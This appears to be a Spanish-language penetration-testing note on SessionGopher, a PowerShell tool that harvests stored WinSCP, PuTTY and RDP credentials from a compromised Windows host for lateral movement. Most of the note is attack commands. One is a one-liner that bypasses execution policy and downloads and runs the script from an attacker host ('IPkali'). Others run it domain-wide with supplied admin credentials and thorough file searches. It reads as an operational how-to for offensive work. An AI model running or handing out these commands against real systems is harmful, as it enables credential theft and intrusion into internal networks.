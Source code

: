 SessionGopher permite enumerar contraseñas almacenadas en un host víctima, para poder realizar ataques de movimiento lateral.

Es un script de PowerShell, que recupera contraseñas usadas en aplicaciones como WinSCP, PuTTY, RDP, etc...

[SessionGopher](https://github.com/Arvanaghi/SessionGopher)

Lo descargamos a nuestra máquina atacante.

Lo transferimos mediante un servidor de python3 por el puerto 80.

Desde la máquina víctima lo transferimos desde el cmd con el siguiente comando.

```
powershell.exe -nop -ep bypass -C iex (New-Object Net.Webclient).DownloadString('http://IPkali/SessionGopher.ps1'); Invoke-SessionGopher
```

De esta forma lo descargamos y ejecutamos, y nos saca credenciales que pueden ser usadas para otros sistemas dentro de esa red interna o en la máquina la cual lanzamos SessionGopher.

![[Pasted image 20230124165444.png]]

```
powershell.exe -nop -ep bypass -C iex (New-Object Net.Webclient).DownloadString('http://IPkali/SessionGopher.ps1'); Invoke-SessionGopher -Thorough
```

Podemos utilziar ese parámetro nuevo para ver si sacamos algo más, el cual buscará en todo el sistema archivo de cierta .extensión

Para génerar un archivo csv podemos añadir el parámetro:

	-OutCSV

Para lanzarlo en un host específico

	-Target

PARA LANZAR SESSIONGOPHER DE FORMA REMOTA:

	Podemos indicarle el dominio\usuario y su contraseña para que busque por todo el dominio.

```
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

or

	Podemos indicarle un archivo con una lista de ordenadores, y dominio\usuario y su contraseña

```
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -iL computerlist.txt -u domain.com\adm-arvanaghi -p s3cr3tP@ss -o
```

or

	Podemos indicarle un único objetivo dando su hostname.

```
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -Target brandonArvanaghi_win7 -Thorough
```

